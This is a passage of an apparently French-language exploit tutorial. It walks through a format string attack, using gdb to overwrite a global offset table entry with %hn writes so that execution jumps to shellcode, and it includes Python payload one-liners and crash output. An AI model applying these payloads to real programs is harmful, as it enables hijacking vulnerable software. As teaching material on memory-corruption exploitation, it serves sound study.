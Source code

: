 ![fmt7]({{ site.url }}/public/images/fmt/fmt7.png)
  
From [Wikipedia](https://en.wikipedia.org/wiki/Relocation_%28computing%29): *The relocation table is a list of pointers created by the compiler or assembler and stored in the object or executable file. Each entry in the table, or "fixup", is a pointer to an absolute address in the object code that must be changed when the loader relocates the program so that it will refer to the correct location.*
  
```jmp *0x804a014``` nous montre que l'on va faire un jump à l'adresse contenue à l'adresse *0x804a014*.  

![fmt8]({{ site.url }}/public/images/fmt/fmt8.png)
  
Let's check in gdb:  

![fmt9]({{ site.url }}/public/images/fmt/fmt9.png)
  
Il semblerait que nous puissions écrire sur ce segment mémoire. Comment allons-nous procéder?  
D'abord injectons l'adresse mémoire à laquelle nous souhaitons écrire:  

![fmt10]({{ site.url }}/public/images/fmt/fmt10.png)  

On définit maintenant un point d'arrêt cette fois juste avant l'appel à la fonction printf:  

![fmt11]({{ site.url }}/public/images/fmt/fmt11.png) 
  
Bingo. On voit bien que l'adresse a été écrasée et que nous avons une **segmentation fault**.  
  
Maintenant la partie sensible, l'écriture de cette adresse. Pour écrire cette adresse nous utiliserons le formateur **%7$hn** dans notre cas. L'instruction de formatage **%hn** n'écrit que sur **16 octets**.  
  
Globalement notre buffer ressemblera à ceci:
```
"A"+"@ où écrire 16bits" + "@ où écrire les 16 autres bits" + "valeur correspondante à ces 16 bits" + "formateur écriture 16 bits" + "valeur correspondante à ces 16 autres bits" + "formateur écriture 16 bits" + "shellcode"
```  
  
Pourquoi ne pas écrire directement les 32 bits? Nous utiliserons la précision sur le formatage d'une valeur, ici le nombre de caractères sur lequel nous l'afficherons. L'adresse convertie en entier fournit un entier tout simplement trop grand pour être utilisé.   
```
(gdb) print 0xbffff24c 
$2 = 3221221964
```  
 
Tapez ```printf "%3221221964u"``` dans votre console. 
  
L'adresse finale écrite sera l'adresse de notre "shellcode".
  
Première étape:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%7$hn" + "A" + "%8$hn" + "A"*50') 
...
Program received signal SIGSEGV, 
Segmentation fault. 0x000a0009 in ?? () 
```
  
Maintenant déterminons l'adresse précise de notre shellcode:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%65535x" + "%8$hn" + "%65535x" + "%7$hn" + "A"*50')
```  
  
![fmt12]({{ site.url }}/public/images/fmt/fmt12.png)
```